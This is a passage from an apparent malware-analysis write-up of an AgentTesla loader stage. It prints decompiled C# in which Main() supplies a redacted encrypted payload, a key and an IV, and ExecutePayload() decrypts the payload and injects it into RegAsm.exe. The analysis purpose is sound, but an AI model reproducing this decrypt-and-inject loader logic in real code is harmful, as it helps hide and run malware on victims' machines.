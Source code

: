 [![6](/assets/images/AgentTesla/6.png)](/assets/images/AgentTesla/6.png){: .full}

#### Main()

The Main method initializes three important elements:

* A large Base64-encoded string (named text) that represents the encrypted payload.
* A key and an initialization vector (IV) – also provided as Base64 strings.
* It then calls `ExecutePayload()` with these parameters.

```c#
private static void Main(string[] args)
    {
      string text = "fK2NaQxHVYZVTAo+NeLyWNkL[...REDACTED...]";
      byte[] array = Convert.FromBase64String("iA9B1uKFddQdqiLSSuzvD2GhL1o2Jv+v");
      byte[] array2 = Convert.FromBase64String("b2CBFvcQeV4=");
      Program.ExecutePayload(text, array, array2);
    }
```

#### ExecutePayload()

We can see in the Main() function, the 5th stage is executed via calling the `ExecutePayload()` function:

```c#
    private static void ExecutePayload(string encryptedData, byte[] key, byte[] iv)
    {
      byte[] array = Program.DecryptData(encryptedData, key, iv);
      bool flag = array != null;
      if (flag)
      {
        string text = Path.Combine(RuntimeEnvironment.GetRuntimeDirectory(), "RegAsm.exe");
        Program.InjectPayloadIntoProcess(text, array);
      }
    }
```
